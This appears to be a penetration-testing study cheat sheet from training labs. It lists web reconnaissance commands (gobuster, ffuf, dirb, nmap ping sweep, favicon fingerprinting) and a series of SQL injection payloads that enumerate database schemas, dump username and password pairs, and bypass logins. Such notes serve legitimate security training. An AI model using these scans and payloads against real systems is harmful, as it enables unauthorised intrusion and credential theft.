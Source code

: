 gobuster -u http://fakebank.com -w wordlist.txt dir


# Favicon md5 hash

curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum

match favicon from database to find out default web framework https://wiki.owasp.org/index.php/OWASP_favicon_database

### Web App
- check robot.txt
- check sitemap.xml

### Find Server details using header (curl verbose)

curl http://10.10.26.241 -v


### Find what framework, cms website is using 

https://www.wappalyzer.com/

### Automated info gathering

ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.26.241/FUZZ

dirb http://10.10.26.241/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt    (finding directories)

gobuster dir --url http://10.10.26.241/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

# Nmap

## Ping Swip

nmap -sn 192.168.0.0/24


# Sql injection

0 UNION SELECT 1,2,database()

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

' OR 1=1;--

admin123' UNION SELECT 1,2,3;-- 

admin123' UNION SELECT 1,2,3 where database() like 's%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

admin123' UNION SELECT 1,2,3 from users where username like 'a%

admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
